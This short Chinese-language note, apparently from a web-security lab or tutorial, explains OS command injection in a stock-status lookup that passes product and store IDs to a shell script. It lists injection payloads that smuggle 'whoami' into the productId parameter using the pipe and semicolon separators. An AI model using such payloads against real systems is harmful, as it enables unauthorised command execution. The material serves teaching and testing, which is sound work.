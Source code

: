 商品库存信息查询处，存在命令执行注入



https://insecure-website.com/stockStatus?productID=381&storeID=29

为了提供库存信息，应用程序必须查询各种旧系统。由于历史原因，该功能是通过使用产品和存储ID作为参数调用shell命令来实现的：

```javascript
stockreport.pl 381 29
```



payload:

```javascript
productId=1+|+whoami+||+&storeId=1
productId=1+;+whoami+||+&storeId=1
```



; 命令并行执行

| 或者 ，命令执行任意一个就会有返回结果